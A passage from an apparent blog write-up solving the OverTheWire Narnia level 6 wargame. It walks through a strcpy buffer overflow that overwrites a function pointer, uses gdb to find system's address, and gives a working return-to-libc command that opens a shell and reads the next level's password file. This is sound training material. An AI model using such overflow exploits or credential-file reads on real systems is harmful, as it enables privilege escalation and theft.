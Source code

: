         strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        fp(b1);

        exit(1);
}
{% endhighlight %}

It looks like we've got a writable function pointer `fp` via overflowing one of
the two buffers in a `strcpy`. However, in addition to zeroing environment
variables, this challenge tries to detect if `fp` points to an address on the
stack and quits if it does - which means we can't just jump to our shellcode in
`argv` like we did last time.

Fortunately, we have control of a function pointer that gets called and one
argument passed to it - we could call `system("/bin/sh")` if we can find the
address of `system`, classic return to libc. We can get it by opening `narnia6`
in a debugger.

{% highlight bash %}
narnia6@melinda:/narnia$ gdb ./narnia6 
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./narnia6...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x804855d
(gdb) r
Starting program: /games/narnia/narnia6 

Breakpoint 1, 0x0804855d in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e62e70 <system>
{% endhighlight %}

Great, so we need to overwrite `fp` with `0xf7e62e70` and set `b1` to
`"/bin/sh"`. We'll use two overflows, so that we can get the null byte at the
end of `"/bin/sh"` in the right place.

{% highlight bash %}
narnia6@melinda:/narnia$ ./narnia6 `python -c 'print "A"*8+"\x70\x2e\xe6\xf7"'` AAAAAAAA/bin/sh
$ id
uid=14006(narnia6) gid=14006(narnia6) euid=14007(narnia7) groups=14007(narnia7),14006(narnia6)
$ cat /etc/narnia_pass/narnia7
XXXXXXXXXX
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools